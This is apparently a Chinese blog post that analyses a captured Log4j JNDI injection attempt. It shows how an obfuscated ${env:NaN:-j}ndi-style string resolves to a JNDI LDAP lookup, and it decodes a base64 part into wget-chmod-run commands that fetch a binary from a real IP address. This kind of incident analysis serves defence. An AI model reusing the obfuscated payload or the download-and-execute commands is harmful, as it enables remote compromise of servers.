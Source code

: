  <p>{${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}</p> 
 <p>${env:NaN:-j} 等于 j&nbsp;</p> 
 <p>${env:NaN:-:} 等于：</p> 
 <p>${env:NaN:-l} 等于 l</p> 
 <p>那解析完不就是${jndi:ldap: xxxx}，靠真是jndi注入</p> 
 <p>然后再看bease 64部分解析结果如下：</p> 
 <p><img alt="" height="402" src="https://img-blog.csdnimg.cn/dc6f2c7e99b44e7f856ea81f690f4797.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZG9uZ3hpZXhpYW9hZG91,size_20,color_FFFFFF,t_70,g_se,x_16" width="1175"></p> 
 <p>&nbsp;wget http://209.141.46.114/reader : 网站下载reader文件</p> 
 <p>chmod 777 reader ： 修改reader权限为 777</p> 
 <p>./reader runner ：运行reader文件</p> 
 <p>真是太阴险了，谁知道这reader是什么病毒啊 [○･｀Д´･ ○]</p> 
 <p>我还真去下载了一下这个reader，但现在下来发现是编译后文件又用upx加壳的文件，解壳后又要反编译，我没有反编译出来也就只能到此为止了。</p> 
 <p></p> 
</div>
## 关于我

Brath是一个热爱技术的Java程序猿，公众号「InterviewCoder」定期分享有趣有料的精品原创文章！

![InterviewCoder](https://brath4.oss-cn-shenzhen.aliyuncs.com/picgo/%E4%BA%8C%E7%BB%B4%E7%A0%81plus.png)

非常感谢各位人才能看到这里，原创不易，文章如果有帮助可以关注、点赞、分享或评论，这都是对我的莫大支持！